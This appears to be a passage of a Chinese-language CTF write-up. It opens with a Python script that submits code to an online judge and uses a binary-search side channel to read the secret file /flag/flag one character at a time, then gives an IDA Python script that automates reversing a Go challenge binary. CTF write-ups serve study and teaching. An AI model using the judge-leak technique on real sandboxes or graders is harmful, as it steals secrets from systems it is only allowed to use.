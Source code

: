 ```python
o = 'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PYTHONIOENCODING=UTF-8 LANG=en_US.UTF-8 LANGUAGE=en_US:en LC_ALL=en_US.UTF-8'
u = '/usr/bin/python3 /judger/run/165\SVAbYV734P3=\A14VQ6]P7CH47MW/__pycache__/solution.cpython-36.pyc'
flag = """'"""

for i in range(len(flag) - 1, 500):
    min = 32
    max = 128
    while 1:
        j = min + (max - min) // 2
        if min == j:
            flag += chr(j)
            print(flag)
            break
        res = judge('test', f"""import os
a,b = map(int,input().split(' '))
r=open("/flag/flag").read()
if ord(r[{i}])<{j}:
    print(a+b)
else:
    print(a+b+1)
""", 'PYTHON')
        if res:
            max = j
        else:
            min = j
```

## RE [AK]
### godeep 
自动化逆向现在大家都会了（好多解）  
这里命名是`IDA7.7`自动改的，7.7比7.5对go的支持好了很多  
`'godeep_tree.VSWEwsr'`是`right`输出的函数  
`'godeep_tree.ApSzXJOjiFA'`是main里开始的函数  
按if的内容01一下，然后把01串反过来就是flag    
```python
name = 'godeep_tree.VSWEwsr'
r=""
while name != 'godeep_tree.ApSzXJOjiFA':
    print(name, end = ", ")
    func = idaapi.get_func(get_name_ea_simple(name)) 
    ea = func.start_ea
    ref = CodeRefsTo(ea, 1)
    fun = next(ref)
    code = str(idaapi.decompile(fun))
    a, b = code.split('else')
    if name.split(".")[-1] in a:
        r+="1"
    else:
        assert name.split(".")[-1] in b
        r+="0"
    name = re.findall("void __fastcall (.*?)\(",code)[0]
    name = 'godeep_tree.' + name.split("_")[-1]

print(name, end = ", ")
print()
print(bytes.fromhex(hex(eval("0B"+r[::-1]))[2:]))
```
